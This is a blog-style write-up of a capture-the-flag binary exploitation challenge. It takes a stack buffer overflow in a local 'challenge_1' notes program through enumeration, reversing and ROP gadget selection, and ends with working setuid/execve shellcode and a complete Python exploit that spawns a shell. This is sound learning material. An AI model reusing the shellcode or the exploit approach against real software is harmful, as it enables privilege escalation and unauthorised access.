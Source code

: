 ```yaml
---
layout: post
title: "Hacking a simple binary"
date: 2023-11-19 16:27:00 +0200
categories: Binary-Exploitation Exploit-Development
---
```


# Initial setup and enumeration
After downloading the __challenge_1__ executable and modifying the file permissions, I ran the program to see what it does.

![Checking for binary defenses with file.](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/0.png)

![Running the program.](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/1.png)

The program offers three options:
*	Creating a note.
*	Reading all the created notes.
*	Exiting the program.

![Testing functionality in target program.](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/3.png)
 
I proceeded to check for low-hanging fruit; Format string bugs, Buffer Overflows (BoF), etc.

![](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/5.png)

![](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/4.png)

The program seemed to be susceptible to BoF. Next, I proceeded to examine what binary exploit mitigations were in place.


![](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/6.png)

I noted that there was no stack canary, the stack was executable, and no Position Independent Code. This may aid my exploitation attempts at a later stage. Moreover, I decided to leave ASLR enabled on my machine to challenge myself further.

# Reversing
To conduct further investigation, I opened the executable in GDB and Ghidra. On inspection of GDB output, I found that the executable was not compiled with symbols. 

![](https://0x0l0rd.github.io/blog/assets/img/BE1/reversing/1.png)

So, I started from the top, __libc_start_main__. Specifically, as the first parameter of the function is usually the main function, I concluded that it was the best place to start, considering that the binary didn’t seem very large.

![](https://0x0l0rd.github.io/blog/assets/img/BE1/reversing/2.png)

From there, it was relatively easy to determine the function which would be called whenever a note was created. Upon inspection of the function in question, the cause of the vulnerability was made clear.

![](https://0x0l0rd.github.io/blog/assets/img/BE1/reversing/3.png)

That is, the use of __scanf()__, an unsafe function. As it does no bounds-checking, the bounds of the 206-byte buffer could be written past. Using the payload from before, and a breakpoint on the address of the ret instruction, I was able to confirm that the top of the stack before returning from the function was 0x41 (A). 

![](https://0x0l0rd.github.io/blog/assets/img/BE1/reversing/5.png)

Using the following payload, I was able to confirm that I could control the saved return address: ```python3 -c “print('1\n')+('A'*216)+('C'*8))” > ./test```

![](https://0x0l0rd.github.io/blog/assets/img/BE1/reversing/7.png)

(I previously ran the executable with ```r < test```, so restarting the program in GDB invoked the same piped input in the above screenshot.)
I used 216 A’s in the payload, as it would take 208 bytes to fill every byte of the buffer, and a further 8 to overwrite the saved base pointer.

# Exploitation
As the program was being run on a system with ASLR enabled, the simple stack-based buffer overflow would not work. This meant I would need to use a ROP chain. My first few attempts involved using Ropper to find gadgets in the Libc shared object library, but that did not work as a result of ASLR. The only addresses that did not seem to change with each new instance of the running program were the addresses of the gadgets found at the offsets of the code contained within the __Challenge_1__ binary.

[](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/2.png)

I thought to use the gadget as shown in the above screenshot for a ret2libc-style exploit, but that did not work, as the address of __system()__ would change with each instance of the application being launched.

[](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/3.png)

Then I had the thought to use a gadget that would essentially pop RSP’s value into RIP, such that if I were to place shellcode on the stack, I could execute it by redirecting RIP to it.
There were some gadgets I considered chaining together to achieve this, such as the following;

[](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/8.png)

[](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/7.png)

[](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/6.png)

However, after stepping away for a bit, I found a simple solution which only required a single gadget. I discovered this attack vector by investigating the rest of the code contained within the function.

[](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/91.png)

The contents of the buffer are copied to the address stored at the address stored in RDI (I.e, the first parameter passed to the function). This is likely some variable in the caller function, but I noted that I could use it, nonetheless. In addition, RAX is used as the base register for the copy operation. That would work well with the following gadget I found when using Ropper on the __Challenge_1__ binary:

[](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/94.png)

I encountered some sort of error when using 0x40110c as the returned address with which I would overwrite the saved return address on the stack. For some reason, the address overwrite would not change the value of the saved address overwrite. However, by changing the last byte of the address, the overwrite would proceed as expected. I managed to solve the problem by altering the gadget address, such that the address used would be of the prior instruction, such that the last byte is anything other than 0x0c.

[](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/95.png)

As the prior instruction was benign in relation to the intention, it would work (I.e because EDI’s value is not crucial to the exploit succeeding, its value being altered would not present any unexpected behavior).
With the attack vector mapped out, I decided to write some shellcode, as it was the only piece of the exploit that was absent.
The result was the following:

```
section .data 
section .bss
section .text

global _start

_start:
    jmp shellString
pwn:
    ; setuid(0) - GG if setuid :)
    xor rax, rax
    xor rdi, rdi
    mov al, 0x69
    syscall

    ; execve("/bin/sh", 0x0, 0x0)
    xor rax, rax
    xor rdx, rdx
    xor rsi, rsi
    xor rcx, rcx
    mov al, 0x3B
    pop rdi
    mov rdi, [rdi]
    push rdi
    push rsp
    pop rdi
    mov BYTE [rdi + 7], cl
    syscall

shellString:
    call pwn
    sh dq "/bin/sh"
```

Finally, the resultant exploit code was as follows:

```
from struct import pack
from os import system

shellcode = b"\xeb\x24\x48\x31\xc0\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xc0\x48\x31"
shellcode += b"\xd2\x48\x31\xf6\x48\x31\xc9\xb0\x3b\x5f\x48\x8b\x3f\x57\x54\x5f\x88"
shellcode += b"\x4f\x07\x0f\x05\xe8\xd7\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"

return_addr = pack( "<L", 0x401107 )

target = "./challenge_1"
payload = ( b'1\n' ) + shellcode + ( b'A' * 166 ) + return_addr


def main():
    with open( "payload", "wb+" ) as f:
        f.write( payload )

    system( f"(cat payload; printf '\n' ;cat) | {target}" )

if __name__ == "__main__":
    main()
```

When run, I observed that the exploit worked as intended, and I successfully managed to get a shell!

[](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/97.png)





